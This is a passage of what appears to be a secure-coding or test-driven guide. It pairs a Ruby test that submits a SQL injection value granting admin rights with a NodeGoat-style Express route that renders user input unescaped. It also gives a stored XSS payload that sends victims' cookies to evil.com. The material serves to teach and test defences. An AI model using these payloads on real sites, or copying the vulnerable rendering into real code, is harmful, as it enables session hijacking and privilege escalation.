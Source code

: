 ### RED Test Should
```ruby
it 'should reject SQL injection in user update' do
  post '/users/update', params: {
    user: {
      id: "5') OR admin = 't' --'",
      name: 'attacker'
    }
  }

  # Test FAILS on vulnerable code (allows injection)
  expect(response.status).to eq(400)  # Should reject
  expect(User.find(5).admin).to be_falsey  # Should not be admin
end
```

---

## 3. Stored XSS (Unescaped Output) - NodeGoat

### Vulnerability Pattern
```javascript
// VULNERABLE: Rendering user input without escaping
app.get('/profile/:userId', (req, res) => {
  db.users.findOne({ _id: req.params.userId }, (err, user) => {
    // Directly rendering user-supplied data
    res.send(`
      <html>
        <body>
          <h1>Profile: ${user.name}</h1>
          <p>Bio: ${user.bio}</p>
        </body>
      </html>
    `);
  });
});
```

### Attack Vector
```javascript
// Attacker registers with:
{
  "name": "Alice",
  "bio": "<script>document.location='http://evil.com/steal?cookie='+document.cookie</script>"
}

// When victim views profile, script executes in their browser
```

### Real-World Impact
- **Cookie theft** / session hijacking
- **Keylogging** on that page
- **Defacement** of user profiles
- **Extracted from**: Common pattern in NodeGoat profiles
- **CWE**: CWE-79 (Cross-site Scripting)
